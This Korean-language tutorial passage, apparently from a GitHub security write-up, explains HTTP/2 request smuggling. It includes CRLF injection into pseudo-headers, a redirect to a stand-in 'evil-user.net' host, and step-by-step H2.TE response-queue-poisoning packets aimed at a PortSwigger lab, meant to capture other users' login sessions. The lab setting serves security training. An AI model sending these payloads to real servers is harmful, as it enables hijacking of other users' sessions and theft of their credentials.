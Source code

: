 ✉ **Response**

```
:status	    |    301
location	|    https://evil-user.net/poison?:/test.com/anything/
```

## 🔸 04-07. Pseudo 헤더에 개행 문자 삽입

Pseudo 헤더 내에 개행문자 삽입 후 헤더를 추가할 수 있습니다.

**✉ Front-end**

```
:method    |    GET
:path	   |    /example HTTP/1.1\r\nTransfer-Encoding: chunked\r\nX: x
:authority |    test.com
```

**✉ Back-end**

```
GET /example HTTP/1.1
Transfer-Encoding: chunked
X: xHTTP/1.1
Host: test.com
\r\n
```  
# 📌 05. 활용 및 실습
### 💥 05-01. H2.TE Smuggling을 이용하여 Response queue poisoning (로그인하는 타 사용자의 패킷을 스니핑)

Response queue poisoning 공격 시 타 사용자가 로그인 등 중요 로직이나 중요 정보가 포함된 페이지를 요청한다면 공격자는 바로 후속 요청을 보내여 해당 사용자의 세션 정보나 중요 정보가 담긴 패킷을 받을 수 있습니다.

자신의 요청에 대한 응답과 Poisioning 된 응답을 더 쉽게 구별할 수 있도록 보내는 두 요청 모두에 존재하지 않는 경로를 사용하면 자신의 요청에는 일관되게 404 오류 응답을 받습니다. 타 사용자의 패킷은 200 정상 패킷을 받습니다.

> BurpSuite 사용 시 최상단의 **‘Repeater > Updata Content-Length 해제, Allow HTTP/2 ALPN override 설정’을** 해야 정상적으로 HTTP/2 를 사용할 수 있습니다.

**Step 1)** 아래 패킷을 연속 2회 전송하여 404 에러가 출력된다면 패킷이 Smuggling 된 것이므로 취약하다고 볼 수 있습니다.
```
POST / HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Transfer-Encoding: chunked

0

SMUGGLED
```
**Step 2)** BurpSuite에서 공격을 수행하는 경우 Inspector에서 HTTP/2 로 전환 후 아래와 같이 패킷 내용을 작성하여 전송합니다.
```
POST /x HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
```
